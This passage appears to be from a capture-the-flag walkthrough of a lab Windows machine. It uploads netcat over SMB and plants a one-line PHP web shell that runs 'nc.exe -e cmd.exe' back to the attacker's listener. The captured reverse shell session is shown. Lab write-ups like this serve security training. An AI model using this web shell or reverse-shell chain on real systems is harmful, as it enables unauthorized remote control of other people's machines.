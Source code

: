 - Try `smbclient`
```
┌──(root㉿kali)-[~/Downloads]
└─# smbclient \\\\10.10.10.97\\new-site -U tyler
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> 
```

- `psexec.py` does not work, drives not writable
- Upload `nc` to `SMB` share new-site
```
┌──(root㉿kali)-[~]
└─# cp /usr/share/windows-resources/binaries/nc.exe nc.exe   
```

```
┌──(root㉿kali)-[~]
└─# smbclient \\\\10.10.10.97\\new-site -U tyler
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> put nc.exe
putting file nc.exe as \nc.exe (54.7 kb/s) (average 54.7 kb/s)
smb: \> ls
  .                                   D        0  Wed Oct  2 12:59:28 2024
  ..                                  D        0  Wed Oct  2 12:59:28 2024
  iisstart.htm                        A      696  Thu Jun 21 08:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 08:26:03 2018
  nc.exe                              A    59392  Wed Oct  2 12:59:29 2024

                7736063 blocks of size 4096. 3391003 blocks available
```

- Use revshell.php and save in same directory (`~)
```
<?php 
system('nc.exe -e cmd.exe 10.10.14.4 4444')
?>
```

- Put revshell.php on new-site share
```
smb: \> put revshell.php 
putting file revshell.php as \revshell.php (0.2 kb/s) (average 42.3 kb/s)
```

- Now navigate to `http://10.10.10.97:8808/revshell.php` with `nc` listener running on LHOST and a shell is caught
```
┌──(root㉿kali)-[~/Downloads]
└─# nc -lnvp 4444
listening on [any] 4444 ...


connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 57689
Microsoft Windows [Version 10.0.17134.228]                                                                                                                  
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                        

C:\inetpub\new-site>
C:\inetpub\new-site>
C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```
- `nc.exe` needs to be on the RHOST for php shell to work since the `revshell.php` uses `nc.exe` to send cmd to LHOST!
